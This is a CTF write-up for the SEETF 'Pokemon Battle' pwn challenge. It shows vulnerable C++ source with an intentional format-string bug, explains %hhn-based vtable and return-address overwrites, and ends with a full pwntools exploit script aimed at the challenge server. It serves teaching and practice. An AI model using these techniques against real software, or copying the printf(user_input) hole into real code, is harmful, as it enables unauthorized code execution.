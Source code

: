 ## Pokemon Battle
![pokemon](images/pokemon.png)

### Description
>Author: Neobeo\
>Gary wants to challenge you to a virtual battle. Be sure to choose your pokemon well! Here's an early leak of the game, but you should know that it's incomplete and there's currently no way to win.\
>nc fun.chall.seetf.sg 50005\
>MD5: a07506f402f6a3b18ca8ee5f5642a570


### Gain Shell
Format string vuln challenge with given source code c++ for the challenge. The source code its look like this
```c++
// g++ pokemonbattle.cpp -w -o pokemonbattle
#include <iostream>

struct {
    char pokemon[13]; // longest pokemon name is 12 letters (Crabominable)
    virtual void Battle() {
        printf("Let the battle begin...\n");
        // @todo: implement an actual battle
        printf("Your pokemon was defeated. You blacked out!\n");
    }
    virtual void Play() {
        printf("Choose a pokemon: ");
        std::cin.getline(pokemon, sizeof pokemon);
        printf(pokemon);
        printf(", I choose you!\n");
        Battle();
    }
} battler;

int main() {
    battler.Play();
}

void win() {
    system("cat flag.txt");
}
```

The PIE was enabled, and we only have one formatstring with 13 size of input. Where to overwrite?\
In C++, we can overwrite **vtable** of **battler**. Look here at gdb:
![pokemon](images/pokemon2.png)
The program will `call rdx` and rdx come from **vtable of battler**, if we overwrite the vtable to another address and that address contains address of **win** then gameover! We got the shell. Simply our goal is like this

```
Before:
0x555555558150 (batler) -> 0x555555557d68 (vtable) -> 0x5555555551ea (Battle())

After:
0x555555558150 (batler) -> (any_address) -> (win())
``` 

To do our goal before it will write many input and its too complicated. So change our goal to overwrite the return address of **Battle()** to **win()**


Alright, first we need more than one formatstring, to do that we need overwrite vtable to **Play()** again.
Now how to overwrite the vtable? We only have one time formatstring. And the formatstring is in **BSS** not in stack, so we cant use technique like usual.\

![pokemon](images/pokemon4.png)

So we must overwrite just 1 bytes vtable from **0x68** to **0x70**. To do that because the address of battler is at offset 7 on formatstring. We can use that offset to overwrite the vtable.
![pokemon](images/pokemon5.png)
So if we input like `%7$n` on formatstring vuln. It will overwite to the inside of that address. For example we got leak address of **battler** with input `%7$p`. So if we input like `%10c%7$n` the address of **battler** will be like this `0x555555558150 (battler) -> 0x000000000000000a`. We just need ovewrite 1 bytes so we use **$hhn** instead of **$n**

```py
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)
```

![pokemon](images/pokemon6.png)

Now we have unlimited formatstring. If you look at the stack rightnow the stack step back 0x20.\

![pokemon](images/pokemon6.png)

Its because when we call **Play()** again the stack reduced by 0x20. Our goal is to overwrite address of return which is located at
`0x7fffffffdd78 -> 0x00005555555552b7 (return main+20)`. But we dont have that stack on any offset at formatstring.\
But we do have `0x7fffffffdd70` at offset 8 and `0x7fffffffdd80` at offset 12.

```
0x7fffffffdd50 -> 0x00007fffffffdd70 (offset 8)
0x7fffffffdd70 -> 0x00007fffffffdd80 (offset 12)
```

Like we overwrite the vtable before, if we do `%8$n` it will overwrite the address in `0x7fffffffdd70`. So how we do like this.
```
Overwrite value offset 8 to 0x78, %120c%8$hhn
The address will be like

0x7fffffffdd50 -> 0x00007fffffffdd70 (offset 8)
0x7fffffffdd70 -> 0x00007fffffffdd78 (offset 12)
0x7fffffffdd78 -> 0x00005555555552b7
```
So when we input %12$p it will become `0x00007fffffffdd78` with this we can overwrite the return address!. Oh I told before after we back to **Play()** again, the stack move 0x20, so the offset will be move everytime we do a formatstring. And found the correct offset for the addresss `0x00007fffffffdd78` is **16**.

```py
#overwrite vtable Batle() to Play()
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)

#overwrite
payload = f"%{0x78}c"
payload += "%8$hhn"
p.sendline(payload)

p.sendline("%16$p")
#0x7fffffffdd78
```

Alright with this we can simply do the sametrick when we do `%16$n` it will overwrite the return address which is the **main()** function. After that just overwrite vtable back to **Battle()** and we got shell!. Because there's stack alignment error when call **win()** function. Instead of overwrite to start address of **win()** we overwrite to here
```bash
pwndbg> p &win
$1 = (<text variable, no debug info> *) 0x5555555552be <win()>
pwndbg> disass 0x5555555552be
Dump of assembler code for function _Z3winv:
   0x00005555555552be <+0>:	endbr64 
   0x00005555555552c2 <+4>:	push   rbp
   0x00005555555552c3 <+5>:	mov    rbp,rsp
   0x00005555555552c6 <+8>:	lea    rdi,[rip+0xdaa]        # overwrite to here
   0x00005555555552cd <+15>:	call   0x5555555550c0 <system@plt>
```
Overwrite to **0xc6**.\
Full script:

```py
from pwn import *
from sys import *

context.log_level = 'warning'
elf = context.binary = ELF("./pokemonbattle")
p = process("./pokemonbattle")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50005

cmd = """
b*0x555555555274
"""

if(argv[1] == 'gdb'):
	gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
	p = remote(HOST,PORT)

#overwrite vtable Batle() to Play()
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)

#overwrite
payload = f"%{0x78}c"
payload += "%8$hhn"
p.sendline(payload)

# p.sendline("%16$p")
# #0x7fffffffdd78

#gdb.attach(p,cmd)
payload = f"%{0xc6}c"
payload += "%16$hhn"
p.sendline(payload)


payload = f"%{0x68}c"
payload += "%7$hhn"
p.sendline(payload)
p.interactive()
```
